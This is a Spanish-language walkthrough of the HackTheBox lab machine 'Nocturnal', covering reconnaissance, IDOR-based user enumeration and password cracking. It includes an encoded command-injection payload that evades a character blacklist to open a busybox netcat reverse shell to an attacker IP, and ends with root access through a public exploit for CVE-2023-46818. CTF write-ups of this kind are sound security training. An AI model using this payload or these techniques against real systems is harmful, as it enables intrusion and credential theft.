


Nocturnal - HTB

Inicia la fase de reconocimiento validando que la maquina se encuentra encendida y que es posible alcanzarla en la dirección IP 10.10.11.64, ejecutamos el comando:
ping -c 2 10.10.11.64

Debido a su proximidad con un TTL de 64, el sistema operativo podría ser Linux
Se ejecuta un primer escaneo con la herramienta nmap para descubrir los puertos abiertos en la maquina:
sudo nmap -p- -sS --open -vvv --min-rate 5000 -n -Pn 10.10.11.64 -oG recon

Es posible obtener información más detallada sobre los servicios expuestos y sus respectivas versiones a través de un segundo escaneo dirigido a los puertos 80 y 22.
sudo nmap -sCV -p80,22 10.10.11.64 -oN detail

Al visitar la página web observamos que ofrece un servicio de subida y visualización de archivos, es posible crear una cuenta e iniciar sesión.

Si registramos un usuario e iniciamos sesión somos redirigidos al endpoint /dashboard.php en donde tenemos la capacidad de subir cierto tipo de archivos, si intentamos subir un archivo diferente a los permitidos mostrará el mensaje “Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.”

La sección “Your Files” muestra una lista de los archivos subidos por el usuario, por ejemplo example.pdf

Automáticamente se genera un link de descarga con la siguiente estructura:
[http://nocturnal.htb/view.php?username=test&file=example.pdf](http://nocturnal.htb/view.php?username=test&file=example.pdf)
Si modificamos el nombre de usuario por uno que no exista recibimos la respuesta:

Utilizaremos esta cadena “User not found.” en la respuesta para con ffuf enumerar usuarios validos:
ffuf -u "[http://nocturnal.htb/view.php?username=FUZZ&file=example.pdf](http://nocturnal.htb/view.php?username=FUZZ&file=example.pdf)" -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -fr "User not found." -b "PHPSESSID=hhmdcqb6v8d44ifruulbhq6ucr"

Al visitar nuevamente el link de descarga sustituyendo el usuario test por amanda de la forma:
[http://nocturnal.htb/view.php?username=amanda&file=example.pdf](http://nocturnal.htb/view.php?username=amanda&file=example.pdf)
La respuesta muestra que no existe el archivo “example.pdf” para dicho usuario, sin embargo es posible observar los archivos subidos previamente.

Este documento es una carta del equipo de TI y contiene una contraseña.

El usuario amanda cuenta con privilegios administrativos. Al autenticarse, obtiene acceso a un panel de administración que permite visualizar el código fuente de archivos PHP alojados en el servidor web.

También, existe la opción de crear un backup del sitio en formato zip y protegerlo con contraseña

La lógica detrás de esta funcionalidad es la siguiente:

La función cleanEntry() sanitiza la contraseña ingresada por el usuario y luego se incluye dentro del comando que ejecuta la creación del backup.

Una lista de caracteres no permitidos dificulta la inyección de comandos, sin embargo puede ser evadida y establecer una reverse shell si utilizamos saltos de línea y tabulaciones para separar instrucciones, la solicitud enviada utilizando Burp Suite es la siguiente:
password=is0l3d%0Abusybox%09nc%0910.10.16.11%0983%09-e%09/bin/sh%0A&backup=

De vuelta en el código, en el archivo dasboard.php se hace referencia a una base de datos SQLite3 que es posible consultar a través de la reverse shell previamente entablada.

Esta base de datos contiene las tablas uploads y users con usuarios y contraseñas hasheadas en md5:

El usuario tobias fue identificado también en la máquina comprometida.

Tras obtener su hash y realizar un ataque de fuerza bruta exitoso utilizando Hashcat, se logró descubrir su contraseña.
hashcat -a 0 -m 0 hashes.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

Esta credencial resultó ser reutilizada en el sistema, lo que permitió escalar privilegios lateralmente desde el usuario limitado www-data al usuario tobias. Como resultado, se obtuvo acceso la primera bandera.
Con la herramienta ss se obtiene un volcado de las conexiones de red en la maquina comprometida:
ss -tulnp

El puerto 8080 aparece activo internamente, con ssh se redirecciona el puerto 8080 de la maquina victima al puerto 8081 de la maquina atacante:
ssh -L 8081:127.0.0.1:8080 [tobias@10.10.11.64](mailto:tobias@10.10.11.64)

El servicio expuesto es una herramienta open source para la gestión de servidores, usuarios, cronjobs y otras funcionalidades criticas del sistema, las credenciales admin y la contraseña para el usuario tobiasson validas para iniciar sesión.

La versión 3.2.11 y sus anteriores son vulnerables a:CVE-2023-46818.Permite la ejecución arbitraria de código php.

Se emplea un exploit de acceso público para obtener una shell con privilegios de administrador en el sistema.